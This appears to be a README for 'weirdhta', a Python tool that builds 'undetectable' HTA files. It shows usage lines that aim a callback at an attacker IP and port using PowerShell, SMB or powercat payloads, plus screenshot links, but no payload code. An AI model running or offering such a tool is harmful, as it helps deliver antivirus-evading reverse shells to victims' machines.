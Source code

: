 # weirdhta
A Python-based basic tool for creating undetectable hta file.


```
python3 weirdhta.py 10.10.10.10 4444
python3 weirdhta.py 10.10.10.10 4444 --smb (without powershell payload, it will use smb)
python3 weirdhta.py 10.10.10.10 4444 --nc (for powercat)
```

### Screenshots
Running via browser:


![Script Image](https://i.imgur.com/mb8xvCq.png)

![Script Image](https://i.imgur.com/LCo3Ivb.png)

![Script Image](https://i.imgur.com/5DtxvKi.png)


Running via cli:

![](https://i.imgur.com/xYfALz2.gif)

smb:
![Script Image](https://i.imgur.com/UVgKzpo.png)
![](https://i.imgur.com/4orNAgX.gif)

